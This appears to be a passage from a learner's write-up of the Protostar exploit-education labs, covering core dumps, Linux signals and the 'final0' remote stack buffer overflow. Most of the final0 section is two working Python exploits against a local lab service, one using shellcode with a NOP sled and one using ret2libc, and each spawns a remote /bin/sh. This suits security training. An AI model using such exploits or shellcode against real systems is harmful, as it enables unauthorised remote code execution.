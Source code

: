 ### 0x1C Linux Signals and Core Dumps

- Introduces what are core dump files (files which are generated as a result of a program unexpectedly terminated and record the state of the memory during the crash)

- Introduces what are Linux Signals (some of which you already know such as SIGINT when you run CTRL-C on gdb)

- How to debug final0, final1, final2:

    `gdb /path/to/binary /path/to/core/file`

### 0x1D Final0 Remote Stack Buffer Overflow Exploit

- For this exercise, we are to perform a remote BoF exploit given tht the program uses the unsafe gets() function to receive input for the username.

- Take note that for net0 - net1, the way that the program receives input is via fread(), read(), and fgets() which are all generally safe functions whereas for this challenge, we are using gets(), and gets() reads input till it receives the "\n" nextline character. Hence, when we are sending our input, we need to append all our inputs with "\n"

- Answer (using normal BoF):

    ```
    import socket
    import struct
    import time
    import telnetlib
    
    HOST="127.0.0.1"
    PORT=2995
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    eip = struct.pack("I", 0xbffffc60+10)
    nopsled = "\x90" * 100
    exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    payload = "A" * 512 + "\x00"  + "bbbccccddddeeeeffff" + eip + nopsled + "gggghhhhh" + exploit
    s.send(payload + "\n")
    #s.send("id")
    #data = s.recv(2048)
    #print "Received: ", data
    
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    ```

- Answer (using ret2libc)

    ```
    import socket
    import struct
    import time
    import telnetlib
    
    HOST="127.0.0.1"
    PORT=2995
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    _SYSTEM = struct.pack("I", 0xb7ecffb0)
    _EXIT   = struct.pack("I", 0xb7ec60c0)
    _BIN_SH = struct.pack("I", 0xb7fb63bf)
    _EXECVE = struct.pack("I", 0x08048c0c)
    
    # payload = "A" * 512 + "\x00" + "aaabbbbccccddddeeee" + _SYSTEM + _EXIT + _BIN_SH # system() ret2libc
    payload = "A" * 512 + "\x00" + "aaabbbbccccddddeeee" + _EXECVE + _EXIT + _BIN_SH + "\x00" * 4 + "\x00" * 4 # execve() ret2libc
    s.send(payload + "\n")
    
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    ```

    - For ret2libc using execve, you will need to find the address of the execve function using `(gdb) info functions @plt` and you will have to add 2 * `"\x00" * 4` to represent the gid and uid parameter when running execve("/bin/sh", 0, 0) (see documentation/manual for more information)


### References

https://wiki.archlinux.org/title/Core_dump

https://exploit.education/protostar/

https://www.ibm.com/docs/en/zos/2.2.0?topic=functions-gets-read-string 

https://www.educative.io/answers/how-to-use-the-fgets-function-in-c

https://man7.org/linux/man-pages/man2/read.2.html

https://www.ibm.com/docs/en/i/7.4?topic=functions-fread-read-items


